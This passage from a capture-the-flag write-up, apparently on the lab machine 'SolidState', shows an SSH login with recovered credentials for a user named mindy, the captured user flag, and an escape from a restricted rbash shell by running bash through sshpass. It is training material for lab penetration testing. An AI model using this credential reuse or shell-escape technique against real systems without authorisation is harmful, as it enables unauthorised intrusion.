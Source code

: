 We have the credentials of mindy

```bash
mindy:P@55W0rd1!2@
```

Now we connect via ssh

```bash
❯ ssh mindy@10.10.10.51
The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.
ECDSA key fingerprint is SHA256:njQxYC21MJdcSfcgKOpfTedDAXx50SYVGPCfChsGwI0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.51' (ECDSA) to the list of known hosts.
mindy@10.10.10.51's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$ 
```

## User flag

```bash
mindy@solidstate:~$ clear
-rbash: clear: command not found
mindy@solidstate:~$ echo $PATH
/home/mindy/bin
mindy@solidstate:~$ pwd
/home/mindy
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt 
6a0424ed1865c1e5efb7f0f2af9b95f8
mindy@solidstate:~$
mindy@solidstate:~$ ls bin/
cat  env  ls
mindy@solidstate:~$
```

We have problems is a rbash 

We want a bash so we can do this

```bash
❯ sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51 whoami
mindy
```

```bash
❯ sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51 bash
whoami
mindy
pwd
/home/mindy
```
